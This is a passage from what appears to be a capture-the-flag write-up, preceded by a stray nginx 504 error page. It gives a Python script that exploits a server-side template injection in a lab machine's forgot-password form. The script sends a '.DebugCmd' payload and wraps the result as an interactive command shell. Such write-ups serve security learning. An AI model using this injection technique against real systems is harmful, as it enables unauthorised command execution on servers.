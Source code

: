     <html>
    <head><title>504 Gateway Time-out</title></head>
    <body>
    <center><h1>504 Gateway Time-out</h1></center>
    <hr><center>nginx</center>
    </body>
    </html>
    

### Command Script

I’ll write a quick shell to allow me to enumerate the filesystem. [This
video](https://www.youtube.com/watch?v=B_NXWx8BuHM) shows the process for
that:

Here’s the final script (with a few variable renames):

    
    
    #!/usr/bin/env python3    
    
    import re    
    import requests    
    from cmd import Cmd    
    from html import unescape    
    
    
    class Term(Cmd):    
        prompt = "gobox> "    
        capture_re = re.compile(r"Email Sent To: (.*?)\s+<button class", re.DOTALL)    
    
        def default(self, args):    
            """Run given input as command on gobox"""    
            cmd = args.replace('"', '\\"')    
            resp = requests.post('http://10.10.11.113:8080/forgot/',    
                    data = {"email": f'{{{{ .DebugCmd "{cmd}" }}}}'},    
                    proxies = {"http": "http://127.0.0.1:8080"})    
            try:    
                result = self.capture_re.search(resp.text).group(1)    
                result = unescape(unescape(result))
                print(result)
            except:
                import pdb; pdb.set_trace()
    
    
        def do_exit(self, args):
            """Exit"""
            return True
    
    
    term = Term()
    term.cmdloop()
    

When I give it anything besides `exit`, it will make the request to run the
command and use a regex to pull the SSTI result from the returned page.

    
    
